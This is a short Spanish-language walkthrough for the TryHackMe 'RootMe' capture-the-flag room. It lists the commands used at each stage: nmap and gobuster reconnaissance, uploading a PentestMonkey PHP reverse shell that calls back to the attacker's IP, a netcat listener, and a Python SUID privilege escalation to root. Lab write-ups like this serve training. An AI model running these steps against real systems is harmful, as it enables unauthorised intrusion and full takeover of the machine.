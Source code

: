 # RootMe - Guía Rápida de Pasos y Comandos

Pasos para completar la sala "RootMe" de TryHackMe.

## 1. Reconocimiento

*   Realizar un escaneo inicial de puertos y servicios:
    ```bash
    nmap -sV $TARGET
    ```
*   Ejecutar un escaneo más detallado con enumeración mediante scripts, guardando la salida:
    ```bash
    nmap -sC -sV -oA rootme.txt $TARGET
    ```
*   Descubrir directorios web para encontrar puntos de subida:
    ```bash
    gobuster dir --url http://10.10.XXX.XXX/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
    ```
    *(Esto debería identificar un panel de subida y el directorio `/uploads/`)*

## 2. Obtener una Shell

*   Preparar una reverse shell en PHP (de PentestMonkey: [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)).
*   Actualizar el script de la shell con tu IP de `tun0` y el puerto `1234`.
*   Subir la shell a través del panel web.
*   Iniciar un listener:
    ```bash
    nc -l -v -n -p 1234
    ```
*   Activar la shell accediendo al archivo subido en `/uploads/`.
*   Mejorar la shell básica:
    ```bash
    python -c "import pty; pty.spawn('/bin/bash')"
    ```
*   Encontrar la bandera de usuario:
    ```bash
    find / -type f -name user.txt 2>/dev/null
    ```
    *(Luego usar `cat` sobre el archivo)*

## 3. Escalar Privilegios

*   Buscar binarios SUID:
    ```bash
    find / -type f -perm -4000 2>/dev/null
    ```
    *(Identificar `/usr/bin/python` como SUID)*
*   Usar GTFOBins ([https://gtfobins.github.io/](https://gtfobins.github.io/)) para el exploit SUID de Python.
*   Navegar a `/usr/bin` y ejecutar:
    ```bash
    ./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
    ```
*   Verificar el acceso root:
    ```bash
    whoami
    ```
    *(El resultado debe ser `root`)*
*   Localizar y leer `root.txt`.
